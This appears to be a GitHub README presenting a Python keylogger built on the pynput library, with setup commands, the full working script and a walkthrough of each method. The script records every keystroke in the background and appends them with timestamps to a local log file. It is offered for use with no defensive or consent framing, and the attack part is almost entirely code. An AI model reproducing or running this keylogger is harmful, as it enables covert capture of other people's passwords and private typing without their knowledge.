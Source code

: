 
# Keylogger

This Python script implements a simple keylogger using the pynput library to capture keystrokes. The script runs in the background, recording keys pressed on the keyboard and saving them to a log file (log.txt).

## Installation

1. Clone the repo or just copy the script to a desired .py file

```bash
git clone https://github.com/yaxhx/keylogger.git
cd keylogger

```
2. Install the pynput library

```bash
pip install pynput

```


## Usage

1. Run the script
```javascript
python key.py

```
2. Stop the script
```bash
Press the 'Esc' key to stop the keylogger.

```

## Script
```python
from pynput import keyboard
import time
import threading
import os
import datetime

class KeyLogger:
    def __init__(self):
        self.keys = []
        self.running = False
        self.file_name = 'log.txt'

    def start(self):
        self.running = True
        self.listener = keyboard.Listener(on_press=self.on_press, on_release=self.on_release)
        self.listener.start()

    def stop(self):
        self.running = False
        self.listener.stop()

    def on_press(self, key):
        if key == keyboard.Key.esc:
            self.stop()
        else:
            self.keys.append(key)

    def on_release(self, key):
        pass

    def write_keys(self):
        while self.running:
            if self.keys:
                with open(self.file_name, 'a') as f:
                    f.write(str(datetime.datetime.now()) + '\n')
                    for key in self.keys:
                        f.write(str(key) + '\n')
                self.keys = []

    def run(self):
        self.start()
        writer = threading.Thread(target=self.write_keys)
        writer.start()
        while self.running:
            time.sleep(1)

    def main(self):
        self.run()

if __name__ == "__main__":
    keylogger = KeyLogger()
    keylogger.main()
```
## Features

- Captures all key presses.
- Records the timestamp of each capture session
- Saves logs to a file (log.txt).
- Stops logging when the Esc key is pressed.

## Script Overview

***'KeyLogger' Class***
>The KeyLogger class contains methods to start, stop, and run the keylogger.

- ***`__init__()`***: Initializes the keylogger, sets up an empty list to store keys, and sets the log file name.

- ***`start()`***: Starts the key listener.
- ***`stop()`***: Stops the key listener.
- ***`on_press(key)`***: Handles key press events. If the Esc key is pressed, it stops the keylogger; otherwise, it adds the key to the list.

- ***`on_release(key)`***: Placeholder for key release events (not used).

- ***`write_keys()`***: Writes the captured keys to the log file at regular intervals.
- ***`run()`***: Starts the key listener and the logging thread.
- ***`main()`***: Entry point to run the keylogger.

![](https://media.giphy.com/media/xTiTnBELA6Mb1TeeOc/giphy.gif?cid=790b7611daqio7016ovb4mlaptxdctxr6gzfc2zkg01ai0lc&ep=v1_gifs_search&rid=giphy.gif&ct=g )

# Keylogger
# Keylogger
# Keylogger
